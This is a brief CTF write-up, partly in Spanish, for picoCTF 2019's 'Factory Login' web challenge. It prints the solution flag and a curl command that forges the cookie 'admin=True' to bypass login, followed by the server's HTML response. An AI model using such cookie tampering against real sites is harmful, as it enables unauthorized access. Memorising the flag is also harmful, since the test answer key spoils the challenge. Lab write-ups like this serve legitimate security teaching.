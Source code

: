 ## Objetivo
The factory is hiding things from all of its users. Can you login as Joe and find what they've been looking at? `https://jupiter.challenges.picoctf.org/problem/44573/` ([link](https://jupiter.challenges.picoctf.org/problem/44573/)) or http://jupiter.challenges.picoctf.org:44573
## Solución
```
**Flag**: picoCTF{th3_c0nsp1r4cy_l1v3s_0c98aacc}
```

```
catnap-picoctf@webshell:~$ curl https://jupiter.challenges.picoctf.org/problem/44573/flag -H "Cookie:username=loko;password=loco;admin=True"
<!DOCTYPE html>
<html lang="en">

<head>
    <title>Factory Login</title>


    <link href="https://maxcdn.bootstrapcdn.com/bootstrap/3.2.0/css/bootstrap.min.css" rel="stylesheet">

    <link href="https://getbootstrap.com/docs/3.3/examples/jumbotron-narrow/jumbotron-narrow.css" rel="stylesheet">

    <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.3.1/jquery.min.js"></script>

    <script src="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/js/bootstrap.min.js"></script>

</head>

<body>

    <div class="container">
        <div class="header">
            <nav>
                <ul class="nav nav-pills pull-right">
                    <li role="presentation" class="active"><a href="/">Home</a>
                    </li>
                    <li role="presentation"><a href="/logout" class="btn btn-link pull-right">Sign Out</a>
                    </li>
                </ul>
            </nav>
            <h3 class="text-muted">Factory Login</h3>
        </div>

        <div class="jumbotron">
            <p class="lead"></p>
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{th3_c0nsp1r4cy_l1v3s_0c98aacc}</code></p>
        </div>


        <footer class="footer">
            <p>&copy; PicoCTF 2019</p>
        </footer>

    </div>
</body>
```
## Notas adicionales
Podemos editar las cookies y recargar la pagina para otorgarnos derechos de administrador
## Referencias
https://es.wikipedia.org/wiki/Cookie_(informática)
